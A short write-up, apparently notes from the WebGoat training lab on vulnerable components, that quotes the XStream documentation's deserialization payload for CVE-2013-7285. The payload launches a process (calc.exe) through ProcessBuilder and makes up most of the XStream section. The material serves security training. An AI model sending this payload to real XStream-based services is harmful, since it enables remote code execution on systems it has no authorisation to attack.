

# Vulnerable Components - A9
## The exploit is not always in “your” code
Pressing both Go buttons shows how an older version of the jQuery library used to be vulnerable to XSS attacks.

## Exploiting CVE-2013-7285 (XStream)
WebGoat keeps failing to serialize any XML (even the stock one provided in the description).


But an example attack is described in XStream’s documentation: [CVE-2013-7285](http://x-stream.github.io/CVE-2013-7285.html.)
```HTML
<contact>
  <dynamic-proxy>
    <interface>org.company.model.Contact</interface>
    <handler class='java.beans.EventHandler'>
      <target class='java.lang.ProcessBuilder'>
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</contact>
```
